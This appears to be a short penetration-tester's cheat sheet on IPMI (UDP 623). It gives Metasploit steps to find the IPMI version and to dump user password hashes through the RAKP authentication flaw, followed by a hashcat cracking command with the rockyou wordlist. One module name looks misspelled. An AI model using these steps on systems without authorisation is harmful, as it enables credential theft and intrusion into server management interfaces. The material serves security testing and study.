 ### Resource: https://www.rapid7.com/blog/post/2013/07/02/a-penetration-testers-guide-to-ipmi/

### UDP port: 623 (asf-rmcp)

### Identify version using Metasploit

#### 1) msfconsole

#### 2)  use auxiliary/scanner/ipmi/impi_version

#### 3) set RHOSTS HOST

#### 4) run

### Then depending on the IPMI version, we can abuse the vulnerabilities below:

### Dump password hashes for users with Metasploit (IPMI 2.0 RAKP Authentication Remote Password Hash Retrieval)

#### 1) msfconsole

#### 2) use auxiliary/scanner/ipmi/ipmi_dumphashes

#### 3) set RHOSTS HOST

#### 4) run

#### 5) hashcat -m 7300 -a 0 hash /usr/share/wordlists/rockyou.txt
